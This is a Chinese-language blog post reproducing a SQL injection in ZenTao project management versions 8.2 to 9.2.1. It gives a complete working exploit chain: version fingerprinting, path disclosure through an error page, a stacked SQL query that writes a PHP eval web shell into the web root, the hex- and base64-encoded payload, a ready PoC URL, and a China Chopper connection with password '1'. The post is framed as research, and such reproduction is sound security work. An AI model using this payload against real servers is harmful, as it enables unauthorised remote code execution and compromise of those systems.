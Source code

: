 ```yaml
---
title: 禅道SQL注入-漏洞复现
layout: post
post-image: /assets/images/bg.jpg
description: 禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。
tags:
- 漏洞复现
- 渗透测试
- 免杀
---
```


# 禅道SQL注入-漏洞复现    

​                                                                                                                       ——雷豹000     <!--各自的代号 如我的XF010101-->

## 前言

禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。    <!--主要是阐述存在的问题，将问题描述清楚，可适当引出解决方案-->

## 漏洞简介

受影响的版本：禅道8.2-9.2.1

环境下载地址：https://www.zentao.net/download/80035.html

## 复现详情

首先，在服务器上搭建禅道项目管理系统，搭建完成后，访问地址，页面如下 

![Inked图1_LI](/assets/images/20210806/Inked图1_LI.jpg)

访问http://x.x.x.x./zentao/index.php?mode=getconfig 获取版本信息 该版本存在漏洞

![Inked图2_LI](/assets/images/20210806/Inked图2_LI.jpg)

随便访问一个不存在的路径http://x.x.x.x/zentao/111111 ，报错显示文件路径信息

![Inked图3_LI](/assets/images/20210806/Inked图3_LI.jpg)

根据报错回显的路径，构造将一句话木马写入文件中的SQL语句

 `select'<?php @eval($_POST[1])?>' into outfile'C:/Users/Administrator/Downloads/xampp/zentao/www/bb.php'`

ASCIIhex加密》

`73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027`

继续将加密的语句放入下列语句中  前面加上0x

`{"orderBy":"order limit 1;SET @SQL=0x73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`

base64加密》

`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

构造poc地址：

`http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

访问地址，添加referer

![Inked图4_LI](/assets/images/20210806/Inked图4_LI.jpg)

此时一句话木马已写入，在服务器文件中可查看到

![图5](/assets/images/20210806/图5.png)

中国菜刀连接http://x.x.x.x/zentao/bb.php  密码 1 ，连接成功

![Inked图6_LI](/assets/images/20210806/Inked图6_LI.jpg)


